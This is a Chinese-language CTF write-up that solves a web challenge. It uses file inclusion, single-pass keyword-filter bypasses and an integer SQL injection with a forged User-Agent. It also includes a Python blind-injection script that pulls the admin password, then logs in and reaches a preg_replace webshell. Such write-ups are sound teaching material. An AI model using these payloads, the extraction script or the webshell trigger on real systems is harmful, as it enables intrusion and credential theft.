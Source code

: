 ```yaml
---
title: "CG CTF Web 综合2 Writeup"
date: 2022-07-20T16:08:22+08:00
draft: false
author: "X1r0z"

tags: ['php','ctf','sqli']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


题目很综合, 出的很好

看到答案后觉得当初如果往社工方面想的话, 会更简单...

<!--more-->

http://cms.nuptzj.cn/

![20220720161011](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161011.png)

留言板

常规性的右键查看源代码

![20220720161031](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161031.png)

一看就知道是文件包含

![20220720161056](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161056.png)

根据 sm.txt 以及直接访问网站得到的相关信息, 下载了网站的 PHP 源码, 但 config.php 无法读取

![20220720161214](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161214.png)

about.php

![20220720161238](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161238.png)

有一个过滤, 提示是敏感目录, 有一个 `loginxlcteam` 关键词

直接访问试试

![20220720161326](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161326.png)

后台登陆, 但源码肯定读不出来

很容易就可以猜出来管理员账户是 admin

但密码尝试了好几位都是长度不一致

![20220720161430](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161430.png)

可能有点 bug

可以尝试爆破, 但这个先放一边, 我们接着看源码

tips 说了 xss 与题目无关, 所以我们看一下 antiinject.php

```php
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<?php
function antiinject($content){
$keyword=array("select","union","and","from",' ',"'",";",'"',"char","or","count","master","name","pass","admin","+","-","order","=");
$info=strtolower($content);
for($i=0;$i<=count($keyword);$i++){
 $info=str_replace($keyword[$i], '',$info);
}
return $info;
}
?>
```

这里把关键字都过滤了, 而且过滤了 `' " + - =` 这些单个的字符和空格

可以看出来, 这里的"过滤"仅仅是过滤一次, 对于 `select` `union` 这种关键词可以以 `selselectect` `ununionion` 的形式进行绕过, 对于空格我们可以用 mysql 的行间注释 `/**/` 但对于单字符来说无法绕过

也就是说我们的注入语句中不可能出现 `' " =`

另外发现了 passencode.php

```php
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<?php
function passencode($content){
//$pass=urlencode($content);
$array=str_split($content);
$pass="";
for($i=0;$i<count($array);$i++){
if($pass!=""){
$pass=$pass." ".(string)ord($array[$i]);
}else{
$pass=(string)ord($array[$i]);
}
}
return $pass;
}
?>
```

就是用 ASCII + 空格的形式编码管理员密码, 这个后面会用到, 现在先放一边

查看了好几个 SQL 操作的点, 基本都是下面这种

![20220720162010](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162010.png)

首先这种都是字符型的, 而且使用了 `mysql_real_escape_string()` 进行转义

也就是说在没有数据库启用宽字节 (如 gbk) 的情况下, 我们根本没有办法进行注入

但是 `mysql_real_escape_string()` 的转义对于整数型的注入是没有用的, 因为 `?id=123` 这种形式的注入根本就不需要闭合引号

所以我们现在的目标就很明确了: 找到一个整数型的注入点

经过仔细查找后, 在 so.php 有一处注入点

![20220720162323](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162323.png)

这里对 `User-Agent` 进行了验证, burp 直接改就行

![20220720162539](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162539.png)

下面就是正常的手工注入流程

我第一次用的是盲注, 甚至还写了个小脚本....(有点绕弯子)

后来发现 union 其实也可以, 不过需要先让前面的内容报错 (因为正常的内容占位了, 会导致 union 后面的内容无法显示出来)

```
soid=1/**/ooorrderrder/**/by/**/4 // true
soid=1/**/ooorrderrder/**/by/**/5 // false
```

order by 绕过有个小技巧, 就是构造 `ooorrderrder`, 因为 `order` 含有 `or`, 会过滤两次, 在 `o` 和 `r` 的中间再插入一次 `or` 就能绕过去了

或者直接 union select 挨个挨个试

![20220720162946](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162946.png)

顺便贴一下当时盲注写的脚本

```python
#-*-coding:utf-8-*-

import requests
import binascii

def str_to_hexStr(string):
    str_bin = string.encode('utf-8')
    return binascii.hexlify(str_bin).decode('utf-8')


heads = {'User-Agent':'Xlcteam Browser'}

url = 'http://cms.nuptzj.cn/so.php'

dicts = '0123456789 qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM_{}!@#$%^&*()+=-?'

password=''

for i in range(1,35):
    for p in dicts:
        pp = str_to_hexStr(p)
        ppp = '0x'+pp
        payloads = '1/**/aandnd/**/if(mid((selselectect/**/userppassass/**/frfromom/**/adadminmin/**/where/**/usernnameame/**/like/**/0x61646d696e),'+str(i)+',1)/**/like/**/'+ppp+',1,0)'
        datas = {'soid':payloads}
        res = requests.post(url,data=datas,headers=heads)
        if res.text.find('0xfxxker')!=-1:
            password += p
            print(password)
            break
```

其实前面已经知道了是 ASCII + 空格的编码形式, dicts 不用写的那么多, `1234567890 ` 就够用了

![20220720163757](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163757.png)

数据表结构前面的 sm.txt 已经给出来了

![20220720163028](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163028.png)

密文是 `102 117 99 107 114 117 110 116 117`

根据前面的 passencode.php 可以知道是 ASCII 编码, 解码得到 `fuckruntu`


登录

![20220720163124](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163124.png)

一句话木马在根目录 `xlcteam.php`

先用文件包含读一下内容

![20220720163228](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163228.png)

回调函数

看到 `|.*|e` 想到了正则表达式, 网上搜了一下发现 PHP 可以通过 `preg_replace()` 来执行命令

`array_walk()` 的作用就不说了

`http://cms.nuptzj.cn/xlcteam.php?www=preg_replace`

菜刀连接, 密码 wtf (好像现在 webshell 管理工具已经换了....)

![20220720163522](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163522.png)